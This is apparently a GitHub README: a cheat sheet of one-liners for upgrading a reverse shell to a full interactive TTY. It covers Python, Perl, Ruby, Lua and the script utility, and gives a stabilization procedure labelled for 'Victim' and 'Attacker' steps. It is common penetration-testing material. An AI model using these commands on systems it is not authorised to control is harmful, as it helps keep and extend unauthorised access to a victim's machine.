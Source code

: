 ### Reverse-Shell
Simple TTY cheat sheet for shell stabilization
Prevents you from killing your reverse shells and adds proper shell functionality

- Python
- Script
- Perl
- Linux OS 
- Ruby
- Lua

## TTY Shells

```
python -c 'import pty; pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
echo os.system('/bin/bash')
/bin/sh -i
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

```







# TTY Shell Stabilization Process
```
Victim

python -c 'import pty; pty.spawn("/bin/bash")' OR /usr/bin/script -qc /bin/bash /dev/null
Control Z

Attacker 

stty raw -echo
fg
ENTER
ENTER

Victim

export TERM=xterm
stty cols 132 rows 34
```